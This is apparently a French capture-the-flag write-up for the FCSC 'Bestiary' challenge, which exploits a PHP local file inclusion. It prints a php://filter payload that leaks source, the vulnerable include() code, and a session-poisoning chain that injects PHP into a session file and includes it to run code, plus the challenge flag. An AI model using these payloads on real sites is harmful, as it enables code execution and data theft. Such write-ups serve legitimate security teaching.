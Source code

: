 # Bestiary - 100 pts


# Énoncé 
> On vous demande simplement de trouver le flag.
>
>URL : http://challenges2.france-cybersecurity-challenge.fr:5004/
>
>Format du flag : FCSC{xxxx}
>

## Introduction

Ce challenge porte sur une faille de type LFI.


## Résolution

Dans un premier temps, regardons ce qu'il se passe sur la page web :

![bestiary](../images/Bestiary.jpg)

Nous avons une liste déroulante permettant de choisir un "monstre" et d'afficher sa description.

en essayant de lancer la requête **?monster=test** on se rend compte de ce qu'il se passe, il y a un include("test") qui se fait.

```
Warning: include("test"): failed to open stream: No such file or directory in /var/www/html/index.php on line 33

Warning: include(): Failed opening '"test"' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 33
```

Ayant déjà eu affaire à cette faille sur un autre challenge, j'ai pensé de suite à l'utilisation d'un PHP filter, pour récupérer le code source de la page (encodé en base 64) grâce à ce payload :

```
?monster=**php://filter/read=convert.base64-encode/resource=login.php**
```

Une fois décodé, on a le code suivant :

```
<?php
	**session_save_path("./sessions/")**;
	session_start();
	include_once(**'flag.php'**);
?>
[...]
<?php
	$monster = NULL;

	if(isset($_SESSION['monster']) && !empty($_SESSION['monster']))
		$monster = $_SESSION['monster'];
	if(isset($_GET['monster']) && !empty($_GET['monster']))
	{
		$monster = $_GET['monster'];
		$_SESSION['monster'] = $monster;
	}

	if($monster !== NULL && **strpos($monster, "flag") === False**)
		include($monster);
	else
		echo "Select a monster to read his description.";
?>
[...]

```

On remarque prémièrement qu'on a un fichier **flag.php**, on pourrait essayer de l'afficher de la même manière mais le soucis est qu'on a la fonction **strpos()** qui vérifie que la requête ne contient pas le mot "flag".

On voit également que PHP sauvegarde la session temporairement dans **"./sessions"**. Ce qui signifie que la dernière requête passée y est enregistrée.

Il nous suffit alors de récupérer notre cookie de session, ici **PHPSESSID=77a92d88fc8020c7059ac9c78243c53d**

Le dernier payload qu'on passe dans la requête se retrouve dans le fichier **./sessions/sess_77a92d88fc8020c7059ac9c78243c53d**

On comprend donc que pour récupérer le flag il va falloir réaliser 2 actions :

Premièrement, injecter dans l'URL la commande PHP voulue :

```
http://challenges2.france-cybersecurity-challenge.fr:5004/?monster=<?php include("fl"."ag.php"); echo $flag; ?>
```
Et enfin, inclure notre page de session, avec le code qu'on vient d'injecter qui va par conséquent être exécuté, et nous afficher le flag :

```
http://challenges2.france-cybersecurity-challenge.fr:5004/index.php?monster=./sessions/sess_77a92d88fc8020c7059ac9c78243c53d
```
**FLAG :  _FCSC{83f5d0d1a3c9c82da282994e348ef49949ea4977c526634960f44b0380785622}_**
